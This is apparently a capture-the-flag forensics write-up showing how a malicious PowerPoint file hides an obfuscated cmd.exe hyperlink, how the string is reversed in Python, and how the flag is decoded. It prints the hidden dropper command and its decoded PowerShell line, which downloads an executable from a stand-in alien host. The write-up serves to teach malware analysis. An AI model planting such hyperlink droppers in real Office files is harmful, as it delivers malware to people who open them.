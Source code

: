 # **Forensics**

## 0x00 AlienPhish
---
_We were given a Microsoft Powerpoint Presentation [file](/Alien%20Weaknesses.pptx) with **.pptx** extension._

### **Solution**
---
Basically, Microsoft fies with __.*x__ extension like **.docx**, **.pptx**, **.xlsx**, etc are compressed files, that means they can be opened with any zip archive software. 

A malicious code (generally in VBA) can be hidden inside these files.

![zip](images/zipGIF.gif)

>My first step was to open this ppt file using a zip archive. You can also use **_binwalk_** to extract the data if you are using any Linux based OS, but I will stick to *WinRar*.


![zip](images/S0.jpg)


As I see a lot of XML files, looking at rels files makes sense as to see the relationships.


>Opening slide1.xml.rels file gives us:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

NOTE: I have only included the relevant XML code from it.
You can find the full file [here](resources/slide1.xml.rels).

>We can clearly see that it is trying to execute CMD commands. The command is url encoded, the decoded command is :

```cmd
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%""
```

>We can see `for /L%X in (122;-1;0)` reverses the string. We can use python to do the same.

```python
 x = "o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$"
 print(x[::-1])
```

It gives `"$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"`

Everything here makes sense except *some_random_string.exe*.

>Decoding it using online [base64 decoder](www.base64decode.org/) gives us the flag.

>**Flag:**
*CHTB{pH1sHiNg_w0_m4cr0s???}*
